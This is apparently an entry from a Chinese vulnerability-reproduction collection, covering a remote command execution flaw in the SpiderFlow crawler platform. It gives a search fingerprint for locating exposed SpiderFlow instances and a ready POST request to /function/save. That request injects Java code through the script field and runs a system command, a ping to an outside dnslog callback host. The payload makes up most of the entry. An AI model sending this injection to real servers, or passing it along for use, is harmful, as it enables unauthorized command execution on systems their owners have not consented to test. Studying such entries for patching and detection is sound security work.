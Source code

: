 # 

# SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台

官⽹：https://www.spiderflow.org/

## 漏洞影响

```
SpiderFlow
```

## 网络测绘

```
title=="SpiderFlow"
```

## 漏洞复现

主页面

![image-20220524153437590](./images/202205241534681.png)

发送请求包执行命令

```
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

![image-20220524153448336](./images/202205241534389.png)
